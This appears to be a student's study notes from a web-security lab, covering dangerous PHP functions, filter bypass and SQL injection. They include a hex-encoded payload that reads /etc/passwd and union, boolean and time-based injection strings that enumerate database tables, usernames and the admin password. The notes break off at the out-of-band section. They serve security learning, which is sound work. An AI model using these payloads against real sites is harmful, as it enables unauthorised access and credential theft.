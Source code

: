 filtering input wihtout relying on a user's input
input sanitation on server and input checks on client
--
**php vulns**
--
Exec()
Passthru()
System()
--
**bypassing filters**
--
filter may strip certin characters, pass different values like hexadeciaml to bypass; example; `$payload - "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
--

**sqli**
--
error messages proves the existence of sqli vuln (test by adding a ' at the end of a request)
--
types of injection:
inband - same page exploit recieve results on the page - example - `https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
error based - obtains information about the database and maps it out, use enumeration with like %
union based - used for extracting large armounts of data
--
use database() to find database name to use to enumerate with schema
--
**error based enum sqli (boolean)**
--
first find the corrent number of columns `union select 1` ... `union select 1, 2, 3`
this is used when results are not presented to the page but instead a binary response
set 1st query to a falsey response instead of empty string ('') and use union select to find a truthy response
page may return truthy responses like 0 or 1, or taken:true/false, where can enumerate db with sql, successful guesses will return truthy responses
enumerating name of db - `admin123' UNION SELECT 1,2,3 where database() like 's%';--` - 
enumerating table name - `admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`
enumerating column name - `admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`
enumerating username - `admin123' UNION SELECT 1,2,3 from users where username like 'a%`
enumerating password - `admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`
--
**error based enum sqli (time based)**
--
use sql sleep(x) function - when attempt is successful the sleep comand is envoked delaying the response
enumarate like boolean enum
--
**out of bound sqli**
--
1) An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
